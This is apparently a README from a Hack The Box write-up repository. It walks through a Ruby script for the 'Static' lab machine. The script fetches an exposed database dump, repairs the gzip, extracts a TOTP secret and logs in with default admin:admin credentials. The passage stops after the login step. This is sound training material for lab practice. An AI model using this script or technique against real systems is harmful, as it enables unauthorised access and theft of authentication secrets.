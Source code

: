 # Hack The Box. Machines. Static

Machine write-up: https://7rocky.github.io/en/htb/static

### `get_vpn.rb`

This Ruby script is used to automate the process of downloading a `.ovpn` file from the web server at Static machine.

First of all, we need to download a GZIP file called `db.sql.gz`:

```ruby
sql_file = 'db.sql'
gz_file = "#{sql_file}.gz"
tmp = "tmp_#{gz_file}"
host = '10.10.10.246:8080'

puts "[*] Downloading corrupted #{gz_file} file"

url = URI("http://#{host}/.ftp_uploads/#{gz_file}")
res = Net::HTTP.get(url)
File.binwrite(gz_file, res)
```

This file is corrupted because was uploaded using FTP in ASCII mode instead of binary mode. To patch it, we need to replace all ocurrences of `\r\n` by `\n`:

```ruby
File.open(gz_file, 'rb') { |f| File.binwrite(tmp, f.read.gsub("\r\n", "\n")) }
```

Now we can decompress the GZIP file and obtain some SQL contents. Here we can obtain a TOTP key used to handle 2FA (using a regular expression):

```ruby
totp = ''

Zlib::GzipReader.open(tmp) do |f|
  sql = f.read.strip
  puts "[+] Patched #{gz_file} file. Found #{sql_file}:\n\n#{sql}"

  File.open(sql_file, 'w') { |ff| ff.write(sql) }

  totp = sql.scan(/'(.*?)'/).last.first
  puts "\n[+] Using TOTP key: #{totp}"
end

File.delete(tmp)
```

Having this, we can login to the web portal to download the VPN file. Credentials are weak (`admin:admin`):

```ruby
url = URI("http://#{host}/vpn/login.php")
res = Net::HTTP.post(url, 'username=admin&password=admin&submit=Login')
cookie = res['Set-Cookie']
puts '[+] Login successful'
```

